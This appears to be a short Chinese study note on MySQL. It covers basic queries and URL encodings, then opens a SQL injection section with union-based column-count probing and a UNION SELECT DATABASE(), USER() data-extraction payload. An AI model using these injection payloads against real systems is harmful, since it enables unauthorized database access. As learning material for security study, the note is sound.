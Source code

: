 # MySQL

## 基础语句

show columns from table_name;
show columns from `name`  /\* name中有特殊字符时需要加反引号 \*/
show columns from dbname.anothertable;  /\* 查看其他数据库中的表 \*/

select * from users order by username /\* 按照username排序 \*/
SELECT col_name1, col_name2… FROM table_name LIMIT N, M  /\*从第N(从0开始)条开始返回M条数据\*/

SELECT concat(col_name1, col_name2…) FROM table_name /\*整合列数据\*/
SELECT group_concat(col_name1, col_name2…) FROM table_name /\*整合行、列数据\*/

一些常用的URL编码：
Space: %20
\#: %23
':%27
":%22
+:%2B

\#+$-_.!*() 浏览器地址栏默认不编码，但是不意味着不能编码

## SQL注入

### 联合查询

前后列数必须一样

- 判断列数
  
  ```sql
  SELECT col_name1, …, col_nameN FROM table_name WHERE id = 1 ORDER BY M;
  SELECT col_name1, …, col_nameN FROM table_name WHERE id = 1 union select 1,2, …,M;
  ```

- 数据获取

  ```sql
  SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(), 3
  ```

### 无回显

字符串参与数学运算时， 任意字符串都等于 0